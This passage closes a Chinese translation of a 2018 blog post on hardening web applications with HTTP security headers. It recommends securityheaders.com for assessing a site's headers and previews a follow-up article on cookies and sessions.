我想引用[securityheaders.com](https://securityheaders.com/)来结束这篇文章，这是一个非常有用的网站，可以让你验证你的 web 应用程序是否有正确的安全相关的头文件。在你提交一个网址后，你会得到一个分数和一个细目，一个接一个。下面是 facebook.com 的[示例报告:](https://securityheaders.com/?q=https%3A%2F%2Ffacebook.com&followRedirects=on)



如果你不知道从哪里开始，securityheaders.com 是一个获得第一次评估的好地方。

### 有状态 HTTP:用 cookies 管理会话

本文应该已经向我们介绍了一些有趣的 HTTP 头，让我们了解它们如何通过特定于协议的特性以及主流浏览器的帮助来强化我们的 web 应用程序。

在下一篇文章中，我们将深入探讨 HTTP 协议中最容易被误解的特性之一:cookies。

cookie 生来就是为了给无状态的 HTTP 带来某种状态，为了支持 web 应用程序中的会话，我们每个人都可能使用过(或误用过)cookie:每当我们想要保持某种状态时，说“把它存储在 cookie 中”总是很容易的。正如我们将看到的，cookies 并不总是最安全的，在处理敏感信息时必须小心对待。

*最初发表于[odino.org](https://odino.org/secure-your-web-application-with-these-http-headers/)(2018 年 8 月 23 日)。*
*你可以在[推特](https://twitter.com/_odino_)上关注我——欢迎吐槽！*？